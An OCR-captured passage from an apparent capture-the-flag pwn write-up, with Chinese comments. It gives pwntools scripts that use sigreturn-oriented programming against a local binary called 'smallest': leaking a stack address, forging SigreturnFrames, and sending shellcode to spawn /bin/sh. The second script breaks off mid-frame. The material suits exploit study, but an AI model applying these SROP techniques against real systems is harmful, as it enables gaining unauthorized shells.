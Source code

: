 ```python
    p.send(payload2) # frame_read触发的read获取输入
    sleep(3)
    p.send(payload2[8:8+15]) # 重新执行到start，read函数获取输入,触发SROP
    sleep(3)
    # rsp=stack_addr即saart的地址，再一次执行read
    payload = p64(stack_addr+0x10)  # ret到shellcode的首地址
    payload += shellcode
    p.send(payload)
    sleep(3)
    p.interactive()
```

![Alt](img/SROP16.png)
![Alt](img/SROP.png)
![Alt](img/SROP17.png)

```python
    # 通过向泄露的栈地址写入'/bin/sh\x00'，然后执行sys_execv('/bin/sh\x00',0,0)getshell
    from pwn import *
    context.arch = 'amd64'
    syscall_addr = 0x4000BE
    start_addr = 0x4000B0
    set_rsi_rdi = 0x4000B8

    p = process('./smallest')

    payload = p64(start_addr)  
    payload += p64(set_rsi_rdi)
    payload += p64(start_addr)
    p.send(payload)

    sleep(3)
    # p.send(payload[8:8+1])
    p.send('\xb8')
    stack_addr = u64(p.recv()[8:16])
    log.info("stack_addr = %#x",stack_addr)

    frame_read = SigreturnFrame()
    frame_read.rax = constants.SYS_read
    frame_read.rdi = 0
    frame_read.rsi = stack_addr
    frame_read.rdx = 0x300
    frame_read.rsp = stack_addr
```